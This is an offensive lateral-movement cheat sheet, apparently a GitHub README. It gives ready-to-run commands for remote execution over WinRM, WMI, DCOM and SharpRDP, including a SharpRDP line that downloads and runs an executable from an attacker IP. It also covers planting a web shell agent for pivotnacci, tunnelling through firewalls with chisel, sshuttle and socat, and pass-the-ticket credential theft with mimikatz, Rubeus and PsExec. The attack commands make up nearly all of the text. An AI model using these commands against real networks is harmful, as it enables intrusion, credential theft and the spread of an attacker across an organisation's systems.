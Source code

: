 # Lateral Movement

***

### Winrm

```powershell
New-PSSession -ComputerName ht.nooranetshield.local -Credential (Get-Credential)
Enter-PsSession 1
```

### Winrs

```powershell
winrs -r:ht "cmd /c hostname & whomai"
```

### WMI

```powershell
wmic /node:10.0.0.2 /user:administrator process call create "cmd.exe /c calc"
```

### DCOM

```powershell
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.3"))
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\nss.txt","7")
```

### SharpRDP

```
sharprdp computername=ht command=notepad username=nooranetshield.local\administrator password=Aa123456
```

```posershell
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/nss.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\nss.exe" username=nooranetshield.local\administrator password=Aa123456
```

### pivotnacci

Pivot into the internal network by deploying HTTP agents. **Pivotnacci** allows you to create a socks server which communicates with HTTP `agents`. The architecture looks like the following:

##### Installing

```
git clone https://github.com/blackarrowsec/pivotnacci
```

##### Victim confgiuration

upload web shell agent on victim (agent.php , agent.aspx ,agent.jsp)

##### Attacker Configuration

```
.\pivotnacci http://ipvictim/agent.aspx
```

##### scan victim Netowrk

```
nano /etc/proxychains.conf
socks 127.0.0.1 1080
```

```
proxychains crackmapexec smb 172.18.18.0/24
```

### sshuttle

You have access to a remote network via ssh , The remote network has no VPN You don’t want to create an ssh port forward for every single host/port on the remote network use `sshuttle as vpn and access all system on remote network 

#### Installing

```
pip install sshuttle
sudo apt install sshuttle
```

#### Attacker

```
sshuttle  -r root@nooranetred.com 172.17.0.0/16
```

```
sshuttle --dns -r root@nooranetred.com 0/0
```

### Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.
 Single executable including both client and server. Written in Go 
(golang). Chisel is mainly useful for passing through firewalls, though 
it can also be used to provide a secure endpoint into your network.

### Server

##### tunnel

```
chisel server -p 443 --reverse -host 1.2.3.4
```

##### socks

```
chisel  client  localhost:7777 socks
```

##### socat

```
socat TCP-LISTEN:2020,fork,reuseaddr TCP:127.0.0.1:1080
```

### victim

##### tunnel

```
chisel client  1.2.3.4:443 R:7777:127.0.0.1:6666
```

##### socks

```
chisel server  -p 6666 socks5
```

### Attacker

proxifier

    1.2.3.4  port 2020

### Pass the ticket

the ticket is extracted from the host where the user is
currently authenticated

```
- sekurlsa::tickets /export
- kerberos::ptt
  [0;3e7]-2-1-40e10000-NSS-1$@krbtgt-NOORANETSHIELD.LOCAL.kirbi
- kerberos::list
```

```
- Pushd \\192.168.1.40\c$
- Rubeus.exe dump
- Rubeus.exe ptt
   /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi
```

```
.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```
